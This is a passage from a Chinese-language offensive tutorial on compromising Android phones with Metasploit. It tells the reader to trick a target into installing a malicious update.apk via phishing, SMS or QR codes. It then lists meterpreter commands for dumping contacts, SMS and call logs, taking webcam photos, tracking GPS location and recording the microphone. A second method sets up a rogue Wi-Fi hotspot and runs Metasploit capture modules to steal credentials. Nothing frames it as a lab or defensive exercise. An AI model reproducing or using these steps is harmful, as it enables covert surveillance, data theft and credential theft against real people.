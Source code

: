 **步骤 4：诱骗安装**
通过钓鱼邮件、短信、二维码、社交网络等方式，将 `update.apk` 发送给目标，并诱骗他/她点击安装。Android 用户需要开启"允许安装来自未知来源的应用"。

**步骤 5：后渗透控制**

一旦目标安装并运行了应用，你就会在 MSF 中获得一个 `meterpreter` 会话。以下是针对手机的专用命令：

```bash
# 基础信息收集
sysinfo          # 查看手机型号、Android版本等
app_list         # 列出所有已安装的应用

# 权限提升 (尝试)
exploit/android/local/... # 搜索并使用Android本地提权漏洞

# 数据窃取
dump_contacts    # 导出所有联系人
dump_sms         # 导出所有短信
dump_calllog     # 导出通话记录
webcam_list      # 列出摄像头
webcam_snap      # 使用前置或后置摄像头拍照 (需要指定摄像头ID)

# 地理位置
geolocate        # 尝试获取GPS位置 (需要权限)

# 麦克风监控
record_mic -d 10 # 录制10秒麦克风音频

# UI控制
send_sms -d 13800138000 -t "Hello from Meterpreter" # 发送短信
```

---

### **玩法二：恶意 Wi-Fi 热点 - 中间人攻击**

这种玩法不需要目标安装任何应用，但需要他连接到你所控制的 Wi-Fi。

**步骤 1：搭建恶意热点**
使用你的 Kali 机器创建一个 Wi-Fi 热点。可以用 `airbase-ng` 或更简单的工具如 `hostapd`。

**步骤 2：配置网络与流量转发**
设置 IP 转发和 iptables 规则，将所有流量导向你的 Kali 机器。

**步骤 3：使用 `auxiliary/server/capture/http` 和 `https`**
在 MSF 中启动 HTTP 和 HTTPS 捕获服务，用于窃取通过 HTTP 明文传输的凭证。
```bash
use auxiliary/server/capture/http
set SRVHOST 0.0.0.0
set SRVPORT 80
run -j

use auxiliary/server/capture/https
set SRVHOST 0.0.0.0
set SRVPORT 443
run -j
```

